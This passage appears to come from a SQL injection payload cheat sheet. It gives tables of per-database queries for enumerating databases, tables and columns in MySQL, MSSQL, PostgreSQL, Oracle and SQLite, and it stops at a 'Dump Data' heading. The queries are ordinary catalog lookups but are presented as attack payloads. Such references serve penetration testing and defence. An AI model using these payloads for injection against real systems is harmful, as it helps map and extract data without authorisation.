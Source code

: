 * * *

# List Databases

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA <br> SELECT db FROM mysql.db |
| MSSQL      | SELECT name FROM master.sys.databases <br> SELECT name FROM master..sysdatabases |
| PostgreSQL | SELECT datname FROM pg_database <br> SELECT DISTINCT(schemaname) FROM pg_tables  |
| Oracle     | SELECT OWNER FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)                   |
| SQLite     | N/A                                                                              |


* * *

# List Tables

| DBMS       | Payload                                                              |
|------------|----------------------------------------------------------------------|
| MySQL      | SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='[DBNAME]' <br> SELECT database_name,table_name FROM mysql.innodb_table_stats WHERE database_name='[DBNAME]'                                   |
| MSSQL      | SELECT table_name FROM information_schema.tables WHERE table_catalog='[DBNAME]' <br> SELECT name FROM [DBNAME]..sysobjects WHERE xtype='U'                                                                           |
| PostgreSQL | SELECT tablename FROM pg_tables WHERE schemaname = '[SCHEMA_NAME]' <br> SELECT table_name FROM information_schema.tables WHERE table_schema='[SCHEMA_NAME]'                                                        |
| Oracle     | SELECT OWNER,TABLE_NAME FROM SYS.ALL_TABLES WHERE OWNER='[DBNAME]'   |
| SQLite     | SELECT tbl_name FROM sqlite_master WHERE type='table'                |

* * *

# List Columns

| DBMS       | Payload                                                                                                                    |
|------------|----------------------------------------------------------------------------------------------------------------------------|
| MySQL      | SELECT column_name,column_type FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='[TABLE_NAME]' AND table_schema='[DBNAME]' |
| MSSQL      | SELECT COL_NAME(OBJECT_ID('[DBNAME].[TABLE_NAME]'), [INDEX])                                                               |
| PostgreSQL | SELECT column_name,data_type FROM information_schema.columns WHERE table_schema='[DBNAME]' AND table_name='[TABLE_NAME]'   |
| Oracle     | SELECT COLUMN_NAME,DATA_TYPE FROM SYS.ALL_TAB_COLUMNS WHERE TABLE_NAME='[TABLE_NAME]' AND OWNER='[DBNAME]'                 |
| SQLite     | SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='[TABLE_NAME]' <br> SELECT name FROM PRAGMA_TABLE_INFO('[TABLE_NAME]')   |

* * *

# Dump Data
